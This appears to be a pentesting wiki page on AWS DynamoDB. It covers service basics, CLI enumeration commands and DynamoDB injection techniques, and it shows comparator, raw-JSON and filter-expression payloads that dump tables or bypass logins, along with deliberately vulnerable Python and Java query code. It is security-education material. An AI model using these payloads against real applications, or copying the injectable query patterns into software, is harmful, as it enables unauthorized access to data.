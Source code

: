 # AWS - DynamoDB Enum

## DynamoDB

### Basic Information

Amazon DynamoDB is presented by AWS as a **fully managed, serverless, key-value NoSQL database**, tailored for powering high-performance applications regardless of their size. The service ensures robust features including inherent security measures, uninterrupted backups, automated replication across multiple regions, integrated in-memory caching, and convenient data export utilities.

In the context of DynamoDB, instead of establishing a traditional database, **tables are created**. Each table mandates the specification of a **partition key** as an integral component of the **table's primary key**. This partition key, essentially a **hash value**, plays a critical role in both the retrieval of items and the distribution of data across various hosts. This distribution is pivotal for maintaining both scalability and availability of the database. Additionally, there's an option to incorporate a **sort key** to further refine data organization.

### Encryption

By default, DynamoDB uses a KMS key that \*\*belongs to Amazon DynamoDB,\*\*not even the AWS managed key that at least belongs to your account.

![](https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048)

### Backups & Export to S3

It's possible to **schedule** the generation of **table backups** or create them on **demand**. Moreover, it's also possible to enable **Point-in-time recovery (PITR) for a table.** Point-in-time recovery provides continuous **backups** of your DynamoDB data for **35 days** to help you protect against accidental write or delete operations.

It's also possible to export **the data of a table to S3**, but the table needs to have **PITR enabled**.

### GUI

There is a GUI for local Dynamo services like [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), etc, that could be useful: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration

```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
  --table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```

### Unauthenticated Access

[[../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md]]

### Privesc

[[../aws-privilege-escalation/aws-dynamodb-privesc.md]]

### Post Exploitation

[[../aws-post-exploitation/aws-dynamodb-post-exploitation.md]]

### Persistence

[[../aws-persistence/aws-dynamodb-persistence.md]]

## DynamoDB Injection

### SQL Injection

There are ways to access DynamoDB data with **SQL syntax**, therefore, typical **SQL injections are also possible**.

[[https://book.hacktricks.wiki/en/pentesting-web/sql-injection/index.html]]

### NoSQL Injection

In DynamoDB different **conditions** can be used to retrieve data, like in a common NoSQL Injection if it's possible to **chain more conditions to retrieve** data you could obtain hidden data (or dump the whole table).\
You can find here the conditions supported by DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

Note that **different conditions** are supported if the data is being accessed via **`query`** or via **`scan`**.

> [!NOTE]
> Actually, **Query** actions need to specify the **condition "EQ" (equals)** in the **primary** key to works, making it much **less prone to NoSQL injections** (and also making the operation very limited).

If you can **change the comparison** performed or add new ones, you could retrieve more data.

```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```

[[https://book.hacktricks.wiki/en/pentesting-web/nosql-injection.html]]

### Raw Json injection

> [!CAUTION]
> **This vulnerability is based on dynamodb Scan Filter which is now deprecated!**

**DynamoDB** accepts **Json** objects to **search** for data inside the DB. If you find that you can write in the json object sent to search, you could make the DB dump, all the contents.

For example, injecting in a request like:

```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```

an attacker could inject something like:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

fix the "EQ" condition searching for the ID 1000 and then looking for all the data with a Id string greater and 0, which is all.

Another **vulnerable example using a login** could be:

```python
scan_filter = """{
    "username": {
        "ComparisonOperator": "EQ",
        "AttributeValueList": [{"S": "%s"}]
    },
    "password": {
        "ComparisonOperator": "EQ",
        "AttributeValueList": [{"S": "%s"}]
    }
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```

This would be vulnerable to:

```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```

### :property Injection

Some SDKs allows to use a string indicating the filtering to be performed like:

```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```

You need to know that searching in DynamoDB for **substituting** an attribute **value** in **filter expressions** while scanning the items, the tokens should **begin** with the **`:`** character. Such tokens will be **replaced** with actual **attribute value at runtime**.

Therefore, a login like the previous one can be bypassed with something like:

```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```


